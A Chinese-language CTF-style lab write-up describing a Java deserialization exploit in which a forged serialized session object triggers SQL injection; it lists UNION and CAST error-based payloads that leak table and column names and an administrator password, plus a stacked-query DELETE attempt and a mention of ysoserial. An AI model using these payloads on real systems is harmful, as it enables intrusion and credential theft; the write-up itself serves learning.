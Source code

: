 知道 `ProductTemplate` 實作 `Serializable`，`readObject` 能 `sql injection`，那把 `session` 蓋成我要的 `payload` 就能攻擊了
```java
String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
```

直接編譯一個能把 `ProductTemplate` 序列化的程式，並隨便補上 `Product` 類別
目錄結構：
```
-- Main.java
 \_data
     \_productcatalog
         \_Product.java
         \_ProductTemplate.java
```

編譯好之後，開始測 `payload`
1. `' UNION SELECT 1,2,3,4--` 測欄位數量
回傳 `each UNION query must have the same number of columns Position`
直到 8 個的時候改回傳了 `UNION types character varying and integer cannot be matched Position` 代表欄位為 8 個
2. 改用 `' UNION SELECT 'a','b','c','d','e','f','g','h' --`
吃 `invalid input syntax for type integer: "d"`
這樣就有報錯能拿資料
因為 'e', 'g' 兩個欄位也是整數，然後想要靠 'd' 噴錯，利用 `CAST` 轉型錯誤拿資料
3. 繼續用 `' UNION SELECT 'a','b','c',CAST(table_name as int),0,'f',0,'h' FROM information_schema.tables --`
回傳 `invalid input syntax for type integer: "users"`，知道 `table_name` 為 `user`
4. `' UNION SELECT 'a','b','c',CAST(column_name as int),0,'f',0,'h' FROM information_schema.columns WHERE table_name='users' --`
拿到 `invalid input syntax for type integer: "username"`
5. `' UNION SELECT 'a','b','c',CAST(column_name as int),0,'f',0,'h' FROM information_schema.columns WHERE table_name='users' AND column_name!='username' --`
回 `invalid input syntax for type integer: "password"`
知道帳號欄位是 `username` 與密碼是 `password`
6. 最後 `' UNION SELECT 'a','b','c',CAST(password as int),0,'f',0,'h' FROM users WHERE username='administrator' --`
拿到 administrator 密碼為 **`ruu2hebwzyzgi44jid2e`**

登入後把 Carlos 刪掉後成功通過
![](https://i.imgur.com/T2XMoJZ.png)


### 補充

本來想嘗試用 ysoserial 來進行攻擊，直接抓 `CommonsCollections` 來測，彈 shell 回來，但最後吃了 500 就先回到用 sql injection 的做法了。

想說測試 `statement.executeQuery` 是否能直接 `DELETE` 題目要求的帳號
`1'; DELETE FROM users WHERE username='Carlos' --`
結果吃到 `Multiple ResultSets were returned by the query.` 沒法直接刪除，還是需要有管理員帳密。
[stackoverflow](https://stackoverflow.com/a/10804730) 看到如果是 `MySQL` 必須在連線資料庫時，加上 `allowMultiQueries=true`
而這題的資料庫為 `PostgreSQL`，找不太到資料說要怎麼設定才能多重 query。

## Q2
